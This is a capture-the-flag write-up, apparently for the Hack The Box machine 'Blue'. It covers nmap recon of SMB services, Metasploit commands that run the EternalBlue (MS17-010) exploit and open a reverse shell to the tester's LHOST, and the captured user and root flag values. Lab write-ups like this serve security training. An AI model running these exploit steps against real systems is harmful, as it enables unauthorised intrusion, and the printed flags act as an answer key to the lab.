 ### IP
`10.10.10.40`

# Recon
`nmap -sC -sV 10.10.10.40 -o Blue.nmap`

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-18 22:35 EST
Nmap scan report for 10.10.10.40
Host is up (0.053s latency).
Not shown: 991 closed ports
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 3m27s, deviation: 2s, median: 3m26s
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2020-11-19T03:40:32+00:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-11-19T03:40:29
|_  start_date: 2020-11-19T03:38:32

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 71.57 seconds
```
* We have smb running on ports 139 and 445
	* I'm guessing this is where we have to exploit, because the machine is called "Blue", likely based on the [Eternal Blue](https://en.wikipedia.org/wiki/EternalBlue) exploit
* Looks like a bunch of RPC services are running. Based on the [microsoft documentation](https://docs.microsoft.com/en-us/windows/win32/rpc/rpc-start-page), I'm not sure if this is too much of a big deal. We can look into that later


# Exploitation

### smb

* Let's open `msfconsole`
* `search eternal` gives us a list of options
* we type `use exploit/windows/smb/ms17_010_eternalblue` because we know from the nmap that the system is windows 7
* `show options` 
* `set RHOST 10.10.10.40`
* `set LHOST 10.10.14.19`
	* note that this ip will depend on your local ip (mine was on the vpn tun0 interface)
* `run`
	* if this doesn't work, write `set ForceExploit true` and `run` again
* we get a shell!

* When we go to `C:\Users\haris\Desktop` and run `cat user.txt` we get the user flag: `4c546aea7dbee75cbd71de245c8deea9`
* We can do the same at `C:\Users\Administrator\Desktop` to get the root flag: `ff548eb71e920ff6c08843ce9df4e717`

